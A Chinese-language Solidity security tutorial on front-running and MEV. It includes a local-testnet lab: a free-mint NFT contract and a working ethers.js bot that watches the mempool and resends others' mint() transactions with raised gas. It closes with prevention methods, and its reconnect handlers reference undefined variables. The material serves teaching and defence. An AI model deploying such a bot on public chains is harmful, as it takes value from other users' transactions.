

# WTF Solidity 合约安全: S11. 抢先交易

我最近在重新学 solidity，巩固一下细节，也写一个“WTF Solidity 极简入门”，供小白们使用（编程大佬可以另找教程），每周更新 1-3 讲。

推特：[@0xAA_Science](https://twitter.com/0xAA_Science)｜[@WTFAcademy_](https://twitter.com/WTFAcademy_)

社区：[Discord](https://discord.gg/5akcruXrsk)｜[微信群](https://docs.google.com/forms/d/e/1FAIpQLSe4KGT8Sh6sJ7hedQRuIYirOoZK_85miz3dw7vA1-YjodgJ-A/viewform?usp=sf_link)｜[官网 wtf.academy](https://wtf.academy)

所有代码和教程开源在 github: [github.com/AmazingAng/WTF-Solidity](https://github.com/AmazingAng/WTF-Solidity)

---

这一讲，我们将介绍智能合约的抢先交易（Front-running，抢跑）。据统计，以太坊上的套利者通过三明治攻击（sandwich attack）[共获利$12亿](https://dune.com/chorus_one/ethereum-mev-data)。

## Front-running

### 传统抢跑
抢跑最初诞生于传统金融市场，是一场单纯为了利益的竞赛。在金融市场中，信息差催生了金融中介机构，他们可以通过最先了解某些行业信息并最先做出反应从而实现获利。这些攻击主要发生在股票市场交易和早期的域名注册。

2021 年 9 月，NFT 市场 OpenSea 的产品负责人 Nate Chastain，被发现通过抢先购买将在 OpenSea 首页展示的 NFT 获利。
他利用内幕信息来获得不公平的信息差，OpenSea 将要在首页推送哪些 NFT，然后在展出在首页前抢先买入，然后再在 NFT 登上首页后卖出。然而，有一个人通过将 NFT 交易时间戳与 OpenSea 上有问题的 NFT 的首页促销进行匹配，发现了这一非法行为，Nate 也被告上法院。

另一个传统抢跑的例子包括是在代币上[币安](https://www.wsj.com/articles/crypto-might-have-an-insider-trading-problem-11653084398?mod=hp_lista_pos4)/[coinbase](https://www.protocol.com/fintech/coinbase-crypto-insider-trading)等知名交易所之前，会有得知内幕消息的老鼠仓提前买入。在上币的公告发出后，币价会大幅上涨，这时抢跑者会卖出盈利。

### 链上抢跑

链上抢跑指的是搜索者或矿工通过调高`gas`或其他方法将自己的交易安插在其他交易之前，来攫取价值。在区块链中，矿工可以通过打包、排除或重新排序他们产生的区块中的交易来获得一定的利润，而`MEV`是衡量这种利润的指标。

在用户的交易被矿工打包进以太坊区块链之前，大部分交易会汇集到Mempool（交易内存池）中，矿工在这里寻找费用高的交易优先打包出块，实现利益最大化。通常来说，gas price越高的交易，越容易被打包。同时，一些`MEV`机器人也会搜索`mempool`中有利可图的交易。比如，一笔在去中心化交易所中滑点设置过高的`swap`交易可能会被三明治攻击：通过调整gas，套利者会在这笔交易之前插一个买单，再在之后发送一个卖单，并从中盈利。这等效于哄抬市价。



## 抢跑实践

如果你学会了抢跑，你就算是入门的币圈科学家了。接下来，让我们实践一下，抢跑一笔铸造NFT的交易。我们将会用到的工具：
- `Foundry`的`anvil`工具搭建本地测试链，请提前安装好 [foundry](https://book.getfoundry.sh/getting-started/installation)。
- `remix`进行NFT合约的部署和铸造
- `etherjs`脚本监听`mempool`并进行抢跑。

**1. 启动Foundry本地测试链：** 在安装好 `foundry` 之后，在命令行输入 `anvil --chain-id 1234 -b 10` 搭建本地测试链，chain-id 为 1234，每 10 秒产出一个区块。搭建成功后，它会在显示一些测试账户的地址和私钥，每个账户有 10000 ETH。你可以使用它们进行测试。


**2. 将Remix连接到测试链：** 打开 Remix 的部署页面，打开左上角的`Environment`下拉菜单，选`Foundry Provider`即可将 Remix 连接到测试链。


**3. 部署NFT合约：** 在 Remix 上部署一个简单的 freemint（免费铸造）NFT合约。它有一个`mint()`，用于免费铸造NFT。

```solidity
// SPDX-License-Identifier: MIT
// By 0xAA
pragma solidity ^0.8.4;
import "@openzeppelin/contracts/token/ERC721/ERC721.sol";

// 我们尝试frontrun一笔Free mint交易
contract FreeMint is ERC721 {
    uint256 public totalSupply;

    // 构造函数，初始化NFT合集的名称、代号
    constructor() ERC721("Free Mint NFT", "FreeMint"){}

    // 铸造函数
    function mint() external {
        _mint(msg.sender, totalSupply); // mint
        totalSupply++;
    }
}
```

**4. 部署ethers.js抢跑脚本：** 简单来说，`frontrun.js`脚本监听了测试链`mempool`中的未决交易，筛选出调用了`mint()`的交易，然后复制它并调高`gas`进行抢跑。如果你不熟悉`ether.js`，可以阅读[WTF Ethers极简教程](https://github.com/WTFAcademy/WTF-Ethers)。

```js
// provider.on("pending", listener)
import { ethers, utils } from "ethers";

// 1. 创建provider
var url = "http://127.0.0.1:8545";
const provider = new ethers.providers.WebSocketProvider(url);
let network = provider.getNetwork()
network.then(res => console.log(`[${(new Date).toLocaleTimeString()}] 连接到 chain ID ${res.chainId}`));

// 2. 创建interface对象，用于解码交易详情。
const iface = new utils.Interface([
    "function mint() external",
])

// 3. 创建钱包，用于发送抢跑交易
const privateKey = '0x5de4111afa1a4b94908f83103eb1f1706367c2e68ca870fc3fb9a804cdab365a'
const wallet = new ethers.Wallet(privateKey, provider)

const main = async () => {
    // 4. 监听pending的mint交易，获取交易详情，然后解码。
    console.log("\n4. 监听pending交易，获取txHash，并输出交易详情。")
    provider.on("pending", async (txHash) => {
        if (txHash) {
            // 获取tx详情
            let tx = await provider.getTransaction(txHash);
            if (tx) {
                // filter pendingTx.data
                if (tx.data.indexOf(iface.getSighash("mint")) !== -1 && tx.from != wallet.address ) {
                    // 打印txHash
                    console.log(`\n[${(new Date).toLocaleTimeString()}] 监听Pending交易: ${txHash} \r`);

                    // 打印解码的交易详情
                    let parsedTx = iface.parseTransaction(tx)
                    console.log("pending交易详情解码：")
                    console.log(parsedTx);
                    // Input data解码
                    console.log("raw transaction")
                    console.log(tx);

                    // 构建抢跑tx
                    const txFrontrun = {
                        to: tx.to,
                        value: tx.value,
                        maxPriorityFeePerGas: tx.maxPriorityFeePerGas * 1.2,
                        maxFeePerGas: tx.maxFeePerGas * 1.2,
                        gasLimit: tx.gasLimit * 2,
                        data: tx.data
                    }
                    // 发送抢跑交易
                    var txResponse = await wallet.sendTransaction(txFrontrun)
                    console.log(`正在frontrun交易`)
                    await txResponse.wait()
                    console.log(`frontrun 交易成功`)                
                }
            }
        }
    });

    provider._websocket.on("error", async () => {
        console.log(`Unable to connect to ${ep.subdomain} retrying in 3s...`);
        setTimeout(init, 3000);
      });

    provider._websocket.on("close", async (code) => {
        console.log(
            `Connection lost with code ${code}! Attempting reconnect in 3s...`
        );
        provider._websocket.terminate();
        setTimeout(init, 3000);
    });    
};

main()
```

**5. 调用`mint()`函数：** 在 Remix 的部署页面调用 Freemint 合约的`mint()` 函数，进行 NFT 铸造。

**6. 脚本监听到交易并进行抢跑** 我们可以在终端看到 `frontrun.js` 脚本成功监听到了交易，并进行了抢跑。如果你调用 NFT 合约的 `ownerOf()` 函数查看 `tokenId` 为 0 的持有者是抢跑脚本中的钱包地址，证明抢跑成功！。


## 预防方法

抢先交易是以太坊等公链上普遍存在的问题。我们没法消除它，但是可以通过减少交易顺序或时间的重要性，减少被抢先交易的收益：

- 使用预提交方案(commit-reveal scheme)。
- 使用暗池，用户发出的交易将不进入公开的`mempool`，而是直接到矿工手里。例如 flashbots 和 TaiChi。

## 总结

这一讲，我们介绍了以太坊的抢先交易，也叫抢跑。这种起源于传统金融行业的攻击模式在区块链中更容易实施，因为所有的交易信息都是公开的。我们做了一个抢跑的时间：抢跑一笔铸造 NFT 的交易。当需要有类似的交易时，最好支持隐藏的内存池，或者实施批量拍卖等措施限制。它是以太坊等公链上普遍存在的问题，我们没法消除它，但是可以通过减少交易顺序或时间的重要性，减少被抢先交易的收益。
